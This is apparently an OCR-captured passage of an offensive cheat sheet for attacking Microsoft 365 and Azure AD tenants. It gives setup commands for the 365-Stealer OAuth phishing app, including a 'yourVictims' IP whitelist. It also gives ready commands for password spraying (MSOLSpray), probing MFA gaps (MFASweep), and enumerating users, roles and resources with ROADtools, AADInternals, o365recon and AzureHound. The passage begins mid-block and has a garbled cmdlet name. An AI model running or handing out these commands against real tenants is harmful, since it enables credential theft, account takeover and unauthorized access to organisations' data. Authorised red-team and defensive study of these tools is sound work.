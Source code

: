 ```
Overview > note: Application (Client) ID

vim yourVictims/index.php
insert: public $ipWhitelist = array(
           '127.0.0.1',
           '<ip>',

php --ini
vim php.ini
insert:
extension=sqlite3

apt install php7.4-mbstring
systemctl restart apache2
php -S <365StealerIp>:8080
pip3 install -r requirements.txt
python 365-Stealer.py --set-config
python 365-Stealer.py --run-app
```

## Authenticated User Enumeration and Password Spraying
* https://login.Microsoft.com/common/oauth2/token
* https://github.com/dafthack/MSOLSpray

```
Invoke-MSOLSpray -UserList .\<userlist>.txt -Password <password>
```

## Identify inconsistencies in Microsoft MFA deployments
* https://github.com/dafthack/MFASweep

```
Invoke-MFWSweep -Username <user>@<domain> -Password <password>
```

## Authenticated - Recon
* https://github.com/dirkjanm/ROADtools
* https://github.com/Gerenios/AADInternals
* https://github.com/nyxgeek/o365recon
* https://www.powershellgallery.com/packages/AzureAD/2.0.2.140 (Get-AzureAD)
* https://github.com/BloodHoundAD/AzureHound
* https://github.com/r1cksec/cheatsheets/blob/main/windows/az-powershell.md

```
roadrecon auth -u <user>@<tenant>.onmicrosoft.com -p <password>
roadrecon gather

./o365recon.ps1 -azure

Get-AADIntTenantDomains -Domain
Invoke-AADIntReconAsOutsider -DomainName <tenant>.onmicrosoft.com

Get-AzureADTenantDetail
Get-AzureADUser -All $true | ConvertTo-Json

Invoke-Azurehound

Get-AzResource
Get-AzRoleAssignment
```
